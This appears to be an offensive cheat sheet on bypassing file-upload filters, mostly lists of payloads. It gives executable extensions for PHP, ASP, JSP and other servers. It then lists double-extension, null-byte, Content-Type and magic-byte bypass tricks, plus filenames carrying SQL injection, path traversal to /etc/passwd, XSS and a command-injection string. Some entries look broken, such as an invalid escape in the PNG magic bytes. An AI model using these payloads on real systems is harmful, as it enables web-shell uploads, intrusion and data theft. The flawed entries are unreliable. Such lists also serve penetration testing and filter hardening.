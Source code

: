 # Insecure File Upload

## Defaults extensions

#### PHP

```bash
.php
.php2
.php3
.php4
.php5
.php7
.pht
.shtml
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
.htaccess
```

#### ASP

```
.asp
.aspx
.cer
.asa
.ashx
.asmx
.axd
.cshtm
.cshtml
.rem
.soap
```

#### JSP

```
.jsp
.jspx
.jsw
.jspf
.jsv
.wss
.do
.action
```

#### Perl

```
.pl
.pm
.cgi
.lib
```

#### Coldfusion

```
.cfm
.cfml
.cfc
.dbm
```

#### Flash

```
.swf
```

#### Erland Yaws Web Server

```
.yaws
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.png.php
file.png.Php5
file.php%00.png
file.php%0d%0a.png
file.php%0a.png
file.php\x00.png
```

### Null byte

```
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
file.php......
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.pHp5....
file.%E2%80%AEphp.jpg
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Triple equal

```
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```
